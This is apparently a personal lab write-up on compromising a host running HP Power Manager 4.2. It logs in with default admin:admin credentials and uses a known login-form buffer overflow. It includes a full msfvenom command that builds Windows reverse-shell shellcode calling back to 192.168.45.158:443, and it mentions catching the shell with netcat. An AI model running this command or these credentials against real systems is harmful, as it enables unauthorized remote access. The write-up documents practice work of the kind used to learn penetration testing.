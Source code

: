 
### OpenPorts

- 80
	- HP Power Manager (logged in using default creds **admin:admin**)
- 445
	- Nothing in here
- 3389
	- nothing in here, need creds to enter RDP.
### Path To Compromise

- Found HP Power Manager login port available on port 80
	- Default credentials allowed me to log in as admin:admin
	- Found the version **HP Power Manager 4.2 (Build 7)**
- Looking in searchsploit, we found that there's is a buffer overflow vulnerability in the login form on this application. 
- ![[Pasted image 20240115202021.png]]
- Checking the exploit for universal Buffer Overflow, we can see that the description matches the same type of traffic we observed on our target using burp suite. However, a few modifications are needed in order for the exploit to work.
1. Create our own reverse shell code using msfvenom and exclude the bad characters provided in the documentation. To generate our shell code I used `msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.158 LPORT=443 -a x86 -f c -b "\x00\x3a\x26\x3f\x25\x23\x20\x0a\x0d\x2f\x2b\x0b\x5c\x3d\x3b\x2d\x2c\x2e\x24\x25\x1a"`
2. Step 2 is to add our new shell code in the script, ![[Pasted image 20240115202246.png]]![[Pasted image 20240115202450.png]]
4. Finally, we set up our nc listener on port 443 and executed the exploit to catch our reverse shell.
![[Pasted image 20240115202607.png]]
